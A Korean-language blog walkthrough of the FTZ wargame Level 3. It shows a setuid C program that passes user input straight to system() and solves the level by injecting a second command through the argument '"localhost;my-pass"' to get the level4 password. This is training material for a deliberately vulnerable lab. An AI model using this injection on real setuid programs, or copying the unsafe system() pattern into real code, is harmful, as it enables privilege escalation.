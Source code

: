 ```yaml
---
title: FTZ Level3
categories: [Wargame]
tags: [FTZ]
path: '/articles/2015-06/FTZ-level3'
date: '2015-06-29T08:00:00.000Z'
comments: true
---
```


Level3의 힌트를 보자.

```c
[level3@ftz level3]$ cat hint
다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );

}

이를 이용하여 level4의 권한을 얻어라.

more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
```

autodig를 사용하라고 한다. `strcpy`와 `strcat`을 이용하여 cmd라는 배열에 최종적으로

```
"dig @'인자로 받은 문자열' version.bind chaos txt"
```

라는 문자열을 만들게 된다. 이 문제에서 dig는 별로 중요하지 않지만 dig는 인자로 받은 주소(네트워크 주소)에 대한 정보를 알려주는 명령어이다.

여기서 중요한 것은 힌트를 보게 되면 동시에 여러 명령어를 사용하려면 인데, 리눅스에서 동시에 여러 명령어를 사용하려면 `;`를 기준으로 사용하면 된다. 우리가 코딩을 할 때 ;을 기준으로 문장을 끝내듯이, 리눅스 명령을 사용할 때에도 ;을 기준점으로 사용하면 된다.

`pwd; cd /; pwd;`을 예시로 사용해 보겠다.

```bash
[level3@ftz level3]$ pwd; cd /; pwd
/home/level3
/
```

첫 pwd에 의해서 현재 디렉토리의 위치를 출력해 주고, 가운데 `cd /`에 의해 /디렉토리로 이동됬다. 그 후 마지막 `pwd`에 의해 /의 위치임을 출력하게 되었다. 이렇게 한번의 명령을 보낼 때 `;`을 기준으로 여러 명령을 보낼수 있다.

이점을 이용하여 이번 문제를 해결해 보겠다.

우선 파일의 위치를 검색한다.

```bash
[level3@ftz level3]$ find / -user level4 -perm +6000 2>/dev/null
/bin/autodig
```

파일을 실행 할 때 my-pass명령어를 실행 시키도록 하겠다. `;`을 사용하면 되므로, 인자를 `localhost;my-pass`로 주겠다.

```
[level3@ftz level3]$ /bin/autodig localhost;my-pass
; <<>> DiG 9.2.1 <<>> @localhost version.bind chaos txt
;; global options:  printcmd
;; connection timed out; no servers could be reached

Level3 Password is "can you fly?".
```

Level4의 password가 아닌 Level3의 password를 보여주고 있다. 명령이 제대로 들어가지 않은 것이다. 이 부분에서 hint의 2번째를 생각해야 한다.

문자열의 형태로 보낸다는 것은 우리가 적은 인자는 문자열의 형태가 아닌 ;를 기준으로 끊어 보내게 된다. 그러므로 /bin/autodig localhost라는 문장과 my-pass라는 문장을 끊어서 해석하게 된다.

그렇게 되면 /bin/autodig localhost가 끝나게 되면 my-pass를 실행시키게 되는데, setuid가 걸려있는 프로그램에서 실행시키는 것이 아닌 **현재 터미널**에서 실행시키게 되어 권한은 level3의 권한을 유지하고 있다.

문장을 한번에 보내기 위해서는 `""`를 사용하여 보내고자 하는 부분을 묶어 보내야 한다.

```
[level3@ftz level3]$ /bin/autodig "localhost;my-pass"
; <<>> DiG 9.2.1 <<>> @localhost
;; global options:  printcmd
;; connection timed out; no servers could be reached

Level4 Password is "           ".
```

이렇게 ""를 사용하게 되면 원하는 문자열로 보낼 수 있다.
